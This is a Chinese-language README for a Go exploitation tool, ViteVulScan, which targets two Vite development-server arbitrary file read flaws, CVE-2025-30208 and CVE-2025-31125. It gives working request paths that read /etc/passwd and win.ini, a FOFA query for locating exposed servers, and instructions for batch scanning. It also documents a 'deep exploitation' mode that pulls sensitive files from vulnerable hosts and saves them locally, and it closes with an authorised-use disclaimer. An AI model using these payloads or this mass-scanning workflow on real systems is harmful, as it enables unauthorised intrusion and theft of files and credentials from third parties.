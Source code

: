 # CVE-2025-30208  AND  CVE-2025-31125
针对CVE-2025-30208和CVE-2025-31125的简单漏洞利用
## 漏洞介绍
两个漏洞都是关于Vite开发服务器任意文件读取漏洞，这两个漏洞覆盖面大且利用简单不受限制。

### 漏洞POC：
CVE-2025-30208：
>Windows: /@fs/C://Windows/win.ini?import&raw??
> 
> Linux: /@fs/etc/passwd?import&raw??

CVE-2025-31125
> Windows: /@fs/C://windows/win.ini?import&?inline=1.wasm?init
>
> Linux: /@fs/etc/passwd?import&?inline=1.wasm?init

路径中的/@fs可以不需要携带。

### Fofa测绘语法：
> body="/@vite/client"

## 脚本使用介绍
### 脚本特点
1. 可以联动fofa进行批量利用
2. 会解析存在漏洞的精确路径并进行深度利用

### 编译说明
go版本：`go 1.20以上版本`

进入到项目根目录

先同步一下依赖
> go mod tidy

然后编译项目
>  go build -o ViteVulScan -ldflags="-s -w" -trimpath .

` ./ViteVulScan`即可运行该脚本。

当然你也可以直接在项目根目录下运行该项目:
> go run . 

### 配置
脚本支持联动fofa搜索资产然后进行批量检测。

要想使用fofa，要确保app.ini文件和编译后的二进制文件在同一目录，并且需要修改app.ini文件，其中的fofakey字段填上自己的fofakey，num是自己估摸要检测的大概资产数量。

如果你有针对该漏洞更好的fofa测绘语法，可以自行修改fofaQuery字段。

### 命令行参数介绍



> Usage of ./ViteVulScan:

| 参数                      |                                        描述                                        |
|-------------------------|:--------------------------------------------------------------------------------:|
| -cve                    |        使用哪个cve漏洞进行检测。支持CVE_2025_30208和CVE_2025_31125。默认使用CVE_2025_30208。         |
| -fofa                   |                        指定该参数后，会联动fofa测绘资产，对得到的目标资产进行批量检测                         |
| -u    \|    -url        |                                 指定单个url目标，对其进行检测                                 |
| -f     \|     -filename |                               指定一个文件名，批量检测其中的url地址                               |
| -e                      | 指定该参数后，会对检测存在漏洞的资产进行深度利用，读取各种可能存在的敏感文件并保存在本地。(请谨慎使用该功能，最好是对单个目标检测，也就是使用-u时加上该参数) |

### 说明

1. 批量检测一个文件中的所有目标URL，确保文件中每行一个URL即可，URL可以是包含http的完整URL，也可以是一个域名或者ip，比如：
   ````text
     http://example1.com 
     example2.com
     127.0.0.1
   ````
2. 当指定-fofa和-f参数进行检测后，会自动将存在漏洞的资产保存到当前文件下，文件名格式为"当下时间戳.csv"。 
3. 同时支持对linux和windows平台进行利用，利用的字典分别为linux_sensitive_path.txt和windows_sensitive_path.txt，如果有更多敏感路径，可以自己在相应的字典中进行添加。

# 免责声明
本工具仅用于安全研究和授权测试，请勿用于非法用途。使用本工具进行任何未经授权的测试所造成的后果由使用者自行承担。

# 更新
## 3月29日首次发布：
- 实现fofa进行资产搜集功能
- 实现用CVE_2025_30208漏洞进行批量验证
- 添加命令行解析功能
## 4月1日：
- 实现深度利用功能
## 4月2日：
- 添加对刚出来的CVE_2025_31125漏洞的验证。